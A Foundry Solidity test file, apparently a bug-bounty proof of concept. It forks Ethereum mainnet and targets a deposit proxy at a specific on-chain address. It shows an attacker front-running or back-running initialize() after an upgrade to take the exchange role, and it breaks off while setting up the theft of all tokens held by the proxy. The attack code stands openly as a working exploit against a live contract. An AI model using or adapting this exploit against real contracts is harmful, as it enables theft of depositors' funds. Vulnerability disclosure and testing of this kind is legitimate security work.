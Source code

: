 ```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.7.0 <0.9.0;
pragma abicoder v2;

import "forge-std/Test.sol";
import {IERC20} from "forge-std/interfaces/IERC20.sol";
import "../src/DefaultDepositContract/contracts/core/impl/DefaultDepositContract.sol";

interface IDepositProxy {
    function proxyOwner() external view returns (address owner);
    function upgradeTo(address implementation) external;
    function upgradeToAndCall(address implementation, bytes memory data) external payable;
    function exchange() external view returns (address);
    function initialize(address _exchange) external;
    function owner() external view returns (address);
    function pendingOwner() external view returns (address);
    function withdraw(address, address to, address token, uint256 amount) external payable;
    receive() external payable;
}

contract HelperContract {
    fallback() external payable {}
}

contract TestPOC is Test {
    IDepositProxy deposit_proxy = IDepositProxy(payable(0x54D7aE423Edb07282645e740C046B9373970a168));

    function setUp() public {
        vm.createSelectFork("https://rpc.ankr.com/eth");
    }

    function testFrontrunInitializeStealAllFundsPOC() public {
        console.log("\nNOTE: For simplicity of POC, we are pranking `proxy owner` for upgradeTo tx");
        address proxy_owner = deposit_proxy.proxyOwner();

        DefaultDepositContract new_impl = new DefaultDepositContract();
        console.log("New implementation deployed at: %s", address(new_impl));

        console.log("Proxy owner is upgrading proxy implementation to new implementation: %s", address(new_impl));
        vm.prank(proxy_owner);
        deposit_proxy.upgradeTo(address(new_impl));
        
        address attacker = makeAddr("Attacker");
        console.log("Address of attacker: %s", attacker);

        HelperContract attacker_controlled_contract = new HelperContract();
        console.log("Attacker controlled contract is deployed at : %s", address(attacker_controlled_contract));

        console.log("Attacker can backrun/frontrun upgradeTo/initialize tx respectively. Here, its backrunning upgradeTo tx");
        vm.prank(attacker);
        deposit_proxy.initialize(attacker);

        address exchange = deposit_proxy.exchange();
        console.log("Exchange is initialized to : %s", exchange);
        assert(exchange == attacker);

        console.log("Attacker can steal all the funds from proxy");
        address[] memory tokensToSteal = new address[](5);
```